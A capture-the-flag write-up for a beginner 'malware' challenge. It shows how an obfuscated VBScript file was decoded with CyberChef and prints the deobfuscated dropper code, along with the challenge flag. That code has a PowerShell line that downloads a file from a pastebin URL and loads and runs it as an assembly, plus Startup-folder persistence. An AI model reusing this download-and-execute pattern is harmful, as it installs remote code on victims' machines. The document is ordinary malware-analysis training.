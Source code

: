# VeeBeeEee (malware, 764 solves, 50 points)

## Introduction

<p align="left">
  <img height=400 img src=./readme_assets/vb-challenge.PNG/>
</p>

## Solution

The file has no extension. Opened in mousepad and see the file is partially `UTF-8` and partially `ANSI_X3.4-1986`.

<p align="left">
  <img height=300 img src=./readme_assets/vb-text.PNG/>
</p>

I used [Cyberchef](https://gchq.github.io/CyberChef/) to decode the text using `Microsoft Script Decoder`.

<p align="left">
  <img height=400 img src=./readme_assets/vb-decode.PNG/>
</p>

Remove all of the excess stuff from the file and it looks like normal code. Follow the logic of the code and you get:

```
powershell $f='C:\Users\Public\Documents\July.htm';

if (!(Test-Path $f)){Invoke-WebRequest https://pastebin.com/raw/SiYGwwcz' -outfile $f  };

PathString = SObject.NameSpace(7).Self.Path  "/"  WScript.ScriptName
[System.Reflection.Assembly]::loadfile($f);
[WorkArea.Work]::Exe()

Sub CollectThenReplace(First, Second , Third , Fourth , Fifth)
Temp = First + Second + Third + Fourth + Fifth
Code = Replace(Temp , "" , "" )
End Sub

Return = Object.Run(Code, 0, true)

WScript.Sleep(50000)
For i = 1 To 5
if i = 5 Then
Paste(SPath)
End if
Next
Sub Paste(RT)
FObject.CopyFile RT,PathString
End Sub
```
Paste the url `https://pastebin.com/raw/SiYGwwcz'` from the code into a browser to get the flag.

## Flag

**`flag{ed81d24958127a2adccfb343012cebff}`**

## Tools

- `mousepad`
- [Cyberchef](https://gchq.github.io/CyberChef/)
